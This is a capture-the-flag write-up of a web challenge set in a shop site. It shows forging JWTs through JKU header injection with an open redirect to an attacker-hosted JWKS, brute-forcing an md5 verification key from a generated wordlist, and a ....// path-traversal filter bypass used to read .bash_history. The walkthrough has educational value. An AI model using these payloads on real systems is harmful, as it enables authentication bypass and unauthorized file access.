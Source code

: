 The challenge seems to be a shop 

![Pasted image 20221015211239](https://user-images.githubusercontent.com/32242199/196248036-a5e06855-fef3-4f29-ad13-35e0ca23f89a.png)


There are two usernames gigi and tony1987
#jwt

## JKU header injection

https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection

The site uses JWT:
```json
{
    "alg": "RS256",
    "jku": "http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/jwks",
    "kid": "ecommerce",
    "typ": "JWT"
}
{
    "fresh": false,
    "iat": 1665860798,
    "jti": "874457cd-779c-4ee7-b92e-1facff6493c8",
    "type": "access",
    "sub": "anonymous",
    "nbf": 1665860798,
    "exp": 1665861698
}
```
As we can see in the header is using the jku with the public key to validate the private key.
The site is checking that the url of the jku comes from http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/ so we need an open redirect to be able to bypass it. Luckily there is an open redirect on vacances:
![Pasted image 20221015211946](https://user-images.githubusercontent.com/32242199/196248260-b1874251-432c-4467-ba2a-faf91c1e2c9e.png)
Now we can redirect outside but there is a header telling us that we can FW to internet only to https://gist.githubusercontent.com
The jkws of the web is on /jwks
```
{"keys":[{"alg":"RS256","e":"AQAB","kid":"ecommerce","kty":"RSA","n":"zxD-vevQFBWEd1vb-95pzhJuYRCgifVdrCMciaQ-NaZupQVIsqISzxT_lbd1m2ngSDGiSdmURs9rOWzPySqKsmzTNqIurYGZyJy10AX9KELVkPNoLMBJXUgKtWncr4o9z7-Yv29n9MoivkyV5nncCQ19O_5C0ALfFUcme0X_qBZhaK19psRe4OteBi9kXboRH6ddlwJBhG3Qaz3tnEmh87YmwazwVWSx_Em0maEz44GeaFquY8MfLE11QGFu9bCsE073DugJYCC-ZhO_HNi17LELE0M80dkNmkdIBm46dDzs-0YW8hBjVK_RMZOqT1UmMz-0XX0r2q3llhZHtM2RBQ","use":"sig"}]}
```

This is the place where we will host our jwks
```
{     
	"kty": "RSA",     
	"e": "AQAB",     
	"kid": "ecommerce",     
	"n": "jezUr8c85DmCeYW4E5ALztIab-Ef-kOR9WHy1dSZer75SxMHJstk-ordfkJ74ZJKWIM2izmL2mFIeSRMxTlNxGWNAFw-HnDxbh9Rb6AXMwDb-Wim9yd1CvrkQDPeR13fvcLYTfulLW85lWDPFNOAgifQuykurt0AyEQ6x3oZgCnd8XRJ0Xa1i0zC5vdfpHxBv_mUJx-z8-iSuy86x1KjS_iLMXN4Wniif3xqkoxhBuXt8friRQnq82wABVV-89qKFXTGH2eR2k0ZVSQAMfpjRUaxfI-AYIMvE72B9OY4jO4-K_4IXyOH_n_01nobS_QFypB_S_Efp7rxIgyd4NIV6w" }
```

After some tries we found using gigi as sub works

Create the gist with the public key as JWT
![Pasted image 20221015232925](https://user-images.githubusercontent.com/32242199/196248710-b418ef0f-ed32-4146-b44c-12cd9cb703c2.png)

Host the jwks on a gist:
https://gist.githubusercontent.com/Ambrotd/17a6b13cef2ed9d0595abf018d50cf16/raw/3979807021587533d530c38bd856ed55616b8ee8/jwks

```
{
    "alg": "RS256",
    "jku": "http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/open_position?position=https://gist.githubusercontent.com/Ambrotd/17a6b13cef2ed9d0595abf018d50cf16/raw/3979807021587533d530c38bd856ed55616b8ee8/jwks",
    "kid": "ecommerce",
    "typ": "JWT"
}


```
Be sure to change the exp time to the next day on epoch time https://www.epochconverter.com/

```
{
    "fresh": false,
    "iat": 1665860798,
    "jti": "874457cd-779c-4ee7-b92e-1facff6493c8",
    "type": "access",
    "sub": "gigi",
    "nbf": 1665860798,
    "exp": 1665955591
}
```


After everything is set sign it with our key:
![Pasted image 20221015213519](https://user-images.githubusercontent.com/32242199/196248873-b7cee3ee-d554-4707-8886-9ed1179c6359.png)


And voila! we are admin:

![Pasted image 20221015233238](https://user-images.githubusercontent.com/32242199/196248916-e27f68a0-6067-4117-84cd-a46d685e7c9f.png)


But no so fast now is asking us to verify the account with a key that we don´t have

``Check your email. You should have received a link like http://gamebox1.reply.it/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=4c012936c5246171bfa1908f81a5eead``
This is clearly a hash : 4c012936c5246171bfa1908f81a5eead   which corresponds to the md5 of mike1991

If we look back the user of Tony was tony1987  so we will create a list with the names we have right now [luciano, tony, and gigi] and the years from 1950 to 2020

```python
names= ["luciano","gigi","tony"]
for name in names:
    for year in range(1950,2020):
        print(name+str(year))

```

Let´s use intruder with the list as the key  http://gamebox1.reply.it/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=4c012936c5246171bfa1908f81a5eead  and process the list hashing it to md5:
![Pasted image 20221015234326](https://user-images.githubusercontent.com/32242199/196249132-61fa362c-af9a-458e-9c8f-83a0275cff7d.png)


There is a request with a different size:
![Pasted image 20221015235050](https://user-images.githubusercontent.com/32242199/196249166-cfb02f6d-b777-428f-8b41-04c8c4463b51.png)

/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=55060d3ca52960cb070c5692a0cc814e

Using it gives us a Verification code
![Pasted image 20221015234942](https://user-images.githubusercontent.com/32242199/196249308-34b14ca3-65e0-4fd7-b280-3532bf4a484d.png)


Verification code:
 N45MZAIK
The code is correct and there is a new page:
![Pasted image 20221015235050](https://user-images.githubusercontent.com/32242199/196249418-6e93ed23-3e4c-448d-bdae-296068961f96.png)


Now when we download a report there is a possible LFI
it is filtering ../ so when we input ....// it traslates to ../
![Pasted image 20221016151642](https://user-images.githubusercontent.com/32242199/196249489-165ded3f-3ba2-46e3-b869-ba8772915128.png)


We can't access /etc/passwd but its possible to read files from the same folder accessing .bash_history gives us some commands
![Pasted image 20221016151808](https://user-images.githubusercontent.com/32242199/196249548-37b91d74-9662-4bc7-a419-95fcffc16d21.png)

There is a interesting file under /home/web3/scripts
![Pasted image 20221016151907](https://user-images.githubusercontent.com/32242199/196249606-ac1b598c-3aab-40f6-a6b5-2eea54159d7a.png)
